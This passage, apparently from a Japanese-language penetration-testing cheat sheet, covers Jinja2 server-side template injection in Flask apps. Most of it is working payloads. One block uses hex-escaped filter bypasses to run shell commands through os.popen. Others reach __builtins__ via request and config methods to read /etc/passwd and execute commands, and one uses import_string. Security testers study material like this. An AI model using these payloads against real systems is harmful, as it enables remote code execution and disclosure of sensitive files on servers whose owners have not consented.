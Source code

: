 **`{{`** **`.`** **`[`** **`]`** **`}}`** **`_`** なし
```python
{% raw %}
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
{% endraw %}



```
## Jinjaインジェクション **\<class 'object'>** なしで

[**グローバルオブジェクト**](jinja2-ssti.md#accessing-global-objects)から、そのクラスを使用せずに **RCEに到達する別の方法があります。**\
グローバルオブジェクトの任意の**関数**に到達できれば、**`__globals__.__builtins__`** にアクセスし、そこから **RCE** は非常に**シンプル**です。

オブジェクト **`request`**、**`config`** およびアクセス可能なその他の興味深い**グローバルオブジェクト**から**関数を見つける**ことができます:
```bash
{{ request.__class__.__dict__ }}
- application
- _load_form_data
- on_json_loading_failed

{{ config.__class__.__dict__ }}
- __init__
- from_envvar
- from_pyfile
- from_object
- from_file
- from_json
- from_mapping
- get_namespace
- __repr__

# You can iterate through children objects to find more
```
```markdown
一度関数を見つけたら、以下の方法でbuiltinsを復元できます:
```
```python
# Read file
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}
{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ls")["read"]() %} {{ a }} {% endwith %}
{% endraw %}

## Extra
## The global from config have a access to a function called import_string
## with this function you don't need to access the builtins
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

# All the bypasses seen in the previous sections are also valid
```
## 参考文献
